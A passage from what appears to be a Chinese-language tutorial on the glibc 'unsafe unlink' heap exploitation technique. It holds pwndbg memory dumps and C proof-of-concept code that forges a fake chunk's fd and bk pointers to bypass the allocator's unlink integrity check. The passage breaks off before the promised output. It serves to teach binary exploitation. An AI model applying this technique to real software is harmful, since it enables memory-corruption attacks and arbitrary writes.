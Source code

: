 ```c
pwndbg> x/6gx &chunk0_ptr 
0x555555756020 <chunk0_ptr>:	0x0000555555757260	0x0000000000000000
0x555555756030:	0x0000000000000000	0x0000000000000000
0x555555756040:	0x0000000000000000	0x0000000000000000
pwndbg> x/6gx &chunk1_ptr 
0x7fffffffdd90:	0x0000555555757690	0x0000555555554750
    								#与POC无关
......
pwndbg> 
```

```c
pwndbg>  x/350gx 0x555555757000
0x555555757000:	0x0000000000000000	0x0000000000000251 #tcache
......
0x555555757250:	0x0000000000000000	0x0000000000000431 #chunk0
......
0x555555757680:	0x0000000000000000	0x0000000000000431 #chunk1
......
0x555555757ab0:	0x0000000000000000	0x0000000000020551 #top_chunk
......
0x555555757ae0:	0x0000000000000000	0x0000000000000000
pwndbg> 
```

现在chunk0处于malloc状态，正常情况下我们可以修改其user_data：

> 注意：这里使用fd_nextsize和bk_nextsize来表示的是修改的位置，本步和后续步骤与fd_nextsize和bk_nextsize这两个堆块指针均无关。
>

```c
	printf("We create a fake chunk inside chunk0.\n");
	printf("We setup the 'next_free_chunk' (fd) of our fake chunk to point near to &chunk0_ptr so that P->fd->bk = P.\n");
	chunk0_ptr[2] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)*3);
	printf("We setup the 'previous_free_chunk' (bk) of our fake chunk to point near to &chunk0_ptr so that P->bk->fd = P.\n");
	printf("With this setup we can pass this check: (P->fd->bk != P || P->bk->fd != P) == False\n");
	chunk0_ptr[3] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)*2);
	printf("Fake chunk fd: %p\n",(void*) chunk0_ptr[2]);
	printf("Fake chunk bk: %p\n\n",(void*) chunk0_ptr[3]);
//We create a fake chunk inside chunk0.
//We setup the 'next_free_chunk' (fd) of our fake chunk to point near to &chunk0_ptr so that P->fd->bk = P.
//We setup the 'previous_free_chunk' (bk) of our fake chunk to point near to &chunk0_ptr so that P->bk->fd = P.
//With this setup we can pass this check: (P->fd->bk != P || P->bk->fd != P) == False
//Fake chunk fd: 0x555555756008
//Fake chunk bk: 0x555555756010
```

执行结果如下：
